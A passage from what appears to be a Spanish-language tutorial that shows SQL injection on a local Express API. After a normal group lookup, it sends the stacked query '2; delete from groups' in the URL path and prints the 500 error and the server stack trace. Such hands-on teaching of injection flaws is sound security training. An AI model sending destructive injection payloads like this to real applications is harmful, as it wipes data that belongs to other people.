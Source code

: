 5. Realizar la consulta por id de cualquier grupo (no se realiza el ataque por ahora)

```
>$ http GET localhost:3000/groups/2

HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
Connection: keep-alive
Content-Length: 43
Content-Type: application/json; charset=utf-8
Date: Sun, 21 Apr 2024 17:18:35 GMT
ETag: W/"2b-Kq/DQj7Cg2pLuLdlh4TplMaTZVA"
Keep-Alive: timeout=5
X-Powered-By: Express

{
    "color": "#00FF00",
    "id": 2,
    "name": "group 2"
}
```

6. Realizar el ataque SQL

Utilizar el siguiente URL: `'http://localhost:3000/groups/2;delete from groups'`

Notese las comillas del URL (si se usa postman creo que no son necesarias, en la linea de comandos si son necesarias)

```
>$ http GET 'localhost:3000/groups/2; delete from groups'

HTTP/1.1 500 Internal Server Error
Access-Control-Allow-Origin: *
Connection: keep-alive
Content-Length: 61
Content-Type: application/json; charset=utf-8
Date: Sun, 21 Apr 2024 17:21:22 GMT
ETag: W/"3d-760D80I0HennV1z3Qn6EektTb+0"
Keep-Alive: timeout=5
X-Powered-By: Express

{
    "error": "Cannot read properties of undefined (reading '0')"
}
```

Un error 500? mira el registro del servidor en la consola de express...

```
--- ERROR ---
TypeError: Cannot read properties of undefined (reading '0')
    at Object.getById (file:///home/ksrarc/src/wwc/backendb/src/repositories/groups.repository.js:37:27)
    at process.processTicksAndRejections (node:internal/process/task_queues:95:5)
    at async Object.getById (file:///home/ksrarc/src/wwc/backendb/src/services/groups.service.js:13:16)
    at async getById (file:///home/ksrarc/src/wwc/backendb/src/controllers/groups.controller.js:15:23)
    at async file:///home/ksrarc/src/wwc/backendb/src/lib/continue.decorator.js:4:13
```
